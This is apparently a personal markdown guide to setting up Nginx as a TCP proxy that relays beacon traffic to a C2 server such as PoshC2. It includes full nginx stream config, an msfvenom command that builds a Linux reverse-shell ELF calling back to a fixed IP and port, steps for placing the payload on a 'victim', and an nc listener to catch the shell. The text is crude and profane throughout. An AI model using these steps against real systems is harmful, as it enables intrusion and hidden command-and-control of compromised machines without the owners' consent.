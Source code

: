 # Setting up Nginx for TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffig and beacon traffic can sometimes be encrypted by defualt making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lests install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets modify our config file which might no exist 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
    server {
        listen 80;
        listen [::]:80;

        server_name <serverIP-OR-ServerDNSname>;

        location / {
            proxy_pass http://<parrot-c2-ip>;
        }
    }
    ```
4. Now lets add the TCP rules to allow us to handle the beacons
    ```bash
    sudo vim /etc/nginx/nginx.conf
    ```
5. Paste the following Bellow `http {...}` section
    ```nginx
    stream {
        log_format posh '$remote_addr [$time_local] '
        '$protocol $status $bytes_sent $bytes_received '
        '$session_time "$upstream_addr" '
        '"$upstream_bytes_sent" "$upstream_bytes_received" "$upstream_connect_time"';
    
        server {
            listen 8080;

            proxy_pass <Parrot-IP>:80;

            access_log /var/log/nginx/tcp_access.log posh;
            error_log /var/log/nginx/tcp_error.log;

        }


    }
    ```
6. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```
7. From here we can now create a msfvenom shell or poshc2 with the correct ports set in the TCP section in the example we have `8080` 
    ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.178.132 LPORT=8080 -a x64 -f elf > yup.elf
    ```
    > **NOTE:** Follow the same setup if you are using poshc2 for you bind port, probably 
8. Host your payload however and download on victim 
9. Now if you are running msfvenom start you `nc` listener to catch your beacon.
    ```bash
    sudo nc -lnvp 80
    ```
10. tada you have a beacon shelley, fuck you.